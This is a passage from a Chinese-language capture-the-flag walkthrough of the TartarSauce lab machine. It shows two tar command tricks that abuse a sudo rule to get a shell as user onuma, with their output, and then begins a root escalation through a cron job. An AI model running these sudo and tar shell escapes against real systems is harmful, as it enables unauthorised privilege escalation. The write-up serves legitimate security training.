 sudo -l

tar命令拥有`onuma`用户权限

![](image/image_J8Rer9L56H.png)

通过tar获得`onuma shell` 有两种方法，参考

<https://gtfobins.github.io/gtfobins/tar/#shell>

方法一

```bash
www-data@TartarSauce:/tmp$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
</null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash           
tar: Removing leading `/' from member names
id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)

```

方法二

```bash
www-data@TartarSauce:/tmp$ sudo -u onuma tar xf /dev/null -I '/bin/bash -c "sh <&2 1>&2"'
<sudo -u onuma tar xf /dev/null -I '/bin/bash -c "sh <&2 1>&2"'              
id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)

```

提权到root

使用`pspy32`监听程序，发现定时任务

`root `每5分钟左右执行`/usr/sbin/backuperer`

![](image/image_tnIlRH7siO.png)
